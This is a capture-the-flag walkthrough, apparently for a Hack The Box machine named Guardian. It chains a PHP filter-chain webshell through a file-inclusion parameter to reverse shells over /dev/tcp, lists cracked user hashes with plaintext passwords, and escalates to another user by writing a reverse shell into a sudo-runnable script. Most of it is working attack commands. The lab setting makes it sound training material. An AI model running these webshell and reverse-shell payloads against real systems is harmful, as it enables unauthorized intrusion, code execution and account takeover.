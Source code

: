 Use a generator (public “php filter chain generator” scripts exist) to encode a tiny webshell:

```bash
python3 php_filter_chain_generator.py --chain '<?php eval($_POST["a"]);?>' | tee loot/php_filter_chain.txt
```

This yields something like:

```
php://filter/convert.iconv.utf-8.utf-16le|convert.base64-decode|.../resource=....
```

### Trigger include with comma trick

Visit (replace `<CHAIN>` with the generator output):

```
http://portal.guardian.htb/admin/reports.php?report=<CHAIN>,system.php
```

### Pop a reverse shell

```bash
# listener on attacker
rlwrap -q 0 nc -lvnp 4444

# trigger from attacker
curl -X POST 'http://portal.guardian.htb/admin/reports.php?report=<CHAIN>,system.php' -d 'a=system("bash -c \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\"");'
```

Catch a shell as **www-data**.

## My  shell that works
```
python3 php_filter_chain_generator.py --chain "<?php system(\"bash -c 'bash -i >& /dev/tcp/10.10.16.94/4444 0>&1'\"); ?>"
```
then catch it.

look at the db
```
694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6:8Sb)tM1vs1SS:fakebake000 --> admin
c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS:copperhouse56 --> jamil.enockson

```

### doing ssh and we are in!!


---

then running `sudo -l` found i can run script as anothter user which is `mark` and that file we can write on it, so we made in it reverse shell. And we are mark now!

---